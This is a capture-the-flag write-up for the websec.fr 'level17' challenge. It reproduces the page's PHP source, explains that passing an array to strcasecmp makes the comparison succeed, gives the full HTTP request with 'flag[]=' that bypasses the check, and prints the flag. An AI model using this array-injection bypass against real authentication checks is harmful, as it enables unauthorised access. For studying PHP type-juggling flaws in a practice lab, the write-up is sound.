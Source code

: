 # level17 - 1 point
[Link to the challenge](http://websec.fr/level17)

## Description
```
I was told that guessing is fun.
```
Guessing is fun! 
Can you guess the flag? You can check the sources here.

## Write-up
They gave us the PHP file with the source code of the chall's page:
``` PHP
<?php
include "flag.php";

function sleep_rand() { /* I wish php5 had random_int() */
        $range = 100000;
        $bytes = (int) (log($range, 2) / 8) + 1; # $bytes = 3
        do {  /* Side effect: more random cpu cycles wasted ;) */
            $rnd = hexdec(bin2hex(openssl_random_pseudo_bytes($bytes))); # creates a pseudo random string of bytes with length 3 (3 bytes)
        } while ($rnd >= $range); # get outs of loop only when $rnd < 100000
        usleep($rnd); # sleeps for <=0.1 seconds
}
?>
<!DOCTYPE html>
<html>
        <body>
                <div id="main">
                        <div class="container">
                            <div class="row">
                                <form class="form-inline" method='post'>
                                    <input name='flag' class='form-control' type='text' placeholder='Guessed flag'>
                                    <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                                </form>
                            </div>
                        </div>
                        <?php
                        if (isset ($_POST['flag'])):
                            sleep_rand(); /* This makes timing-attack impractical. */
                        ?>
                        <br>
                        <div class="container">
                            <div class="row">
                                <?php
                                if (! strcasecmp ($_POST['flag'], $flag))
                                    echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
                                else
                                    echo '<div class="alert alert-danger">Invalid flag, sorry.</div>';
                                ?>
                            </div>
                        </div>
                        <?php endif ?>
                </div>
        </body>
</html>

```

Firstly, we notice that the parameters send in the request are `flag=my_flag_guess&submit=Go`. 

Then, after some research I've found that `strcmp` and `strcasecmp` have many problems. One of them is: when we compare a string and an empty array, the function (strcmp, strcasecmp) generates an error, but the return code is 0! So, if we cause an error, the result of `if (! strcasecmp ($_POST['flag'], $flag))` will be `TRUE`. Therefore, we'll have our flag!

Notice that if we get a `FALSE` here, we'll have our flag (`!FALSE = TRUE`).
``` PHP
<?php
    if (! strcasecmp ($_POST['flag'], $flag))
        echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
    else
        echo '<div class="alert alert-danger">Invalid flag, sorry.</div>';
    ?>
```

So, modifying the "flag" parameter in the request and turning it into an array...
```
POST /level17/index.php HTTP/1.1
Host: websec.fr
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://websec.fr/
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://websec.fr
Connection: close
Upgrade-Insecure-Requests: 1

flag[]=&submit=Go
```
... we get our flag!

**Flag: `WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}`**

### Links that helped me understand the challenge:
https://www.php.net/manual/pt_BR/function.openssl-random-pseudo-bytes.php
https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/